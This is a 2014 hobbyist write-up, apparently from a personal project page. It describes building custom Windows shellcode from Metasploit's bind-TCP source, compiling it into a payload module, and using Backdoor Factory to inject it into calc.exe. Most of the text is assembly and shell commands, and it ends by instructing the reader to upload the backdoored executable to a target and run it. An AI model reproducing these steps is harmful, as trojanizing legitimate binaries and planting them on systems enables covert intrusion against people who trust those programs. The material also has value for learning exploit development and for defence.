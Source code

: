 Journeys in shellcode
---------------------
###### Tue Oct 28 22:04:54 EDT 2014

This project is about my travels in shellcode.

The main objective is to construct a simple (and I mean simple) webserver in shellcode, inject it into another executable, and let it survive happily accepting http requests and replying to all of them with a static page.

Step 1: Edit the shell code
---------------------------
metasploit-framework/external/source/shellcode/windows/x86/src/single/single_koth_bind_tcp.asm:
```asm

;-----------------------------------------------------------------------------;
; Author: Stephen Fewer (stephen_fewer[at]harmonysecurity[dot]com)
; Compatible: Windows 7, 2008, Vista, 2003, XP, 2000, NT4
; Version: 1.0 (28 July 2009)
; Size: 341 bytes
; Build: >build.py single_web_bind_tcp
;-----------------------------------------------------------------------------;
[BITS 32]
[ORG 0]

  cld                    ; Clear the direction flag.
  call start             ; Call start, this pushes the address of 'api_call' onto the stack.
%include "./src/block/block_api.asm"
start:                   ;
  pop ebp                ; Pop off the address of 'api_call' for calling later.
%include "./src/block/block_bind_tcp.asm"
  ; By here we will have performed the bind_tcp connection and EDI will be out socket.

call set_hello
hello:
 db "hello!",0x00
set_hello:
 pop ecx
 push byte 0             ; int flags
 push byte 7             ; int len
 push ecx                ; char *buf
 push edi                ; SOCKET s
 push 0x5F38EBC2         ; hash( "ws2_32.dll", "send" )
 call ebp                ; execute?

	; Finish up with the EXITFUNK.
%include "./src/block/block_exitfunk.asm"
```

Step 2: Compile the shell code into a metasploit module
-------------------------------------------------------
```bash
metasploit-framework/external/source/shellcode/windows/x86$ python build.py single_koth_bind_tcp >> ../../../../../modules/payloads/singles/windows/shell_koth_bind_tcp.rb
```

Step 3: Edit shell_koth_bind_tcp.rb
-----------------------------------
1. Fixup the PAYLOAD section
1. Fixup the LPORT offset
1. Fixup the EXITFUNC offset

Step 4: Compile the payload into an executable with Backdoor Factory
--------------------------------------------------------------------
```bash
$ msfpayload windows/shell_koth_bind_tcp LPORT=1337 EXITFUNC=thread R > /tmp/shell_bind.raw
$ bdf/backdoor.py -f /tmp/calc.exe -o calc_backdoor.exe -s user_supplied_shellcode -U /tmp/shell_bind.raw
```
Type 'append' when prompted. The resulting binary will be in `backdoored/calc_backdoor.exe`.

Upload this to the target and execute.

Known Problems
--------------
1. The server only listens to one request then it exits. I need to make it loop somehow.

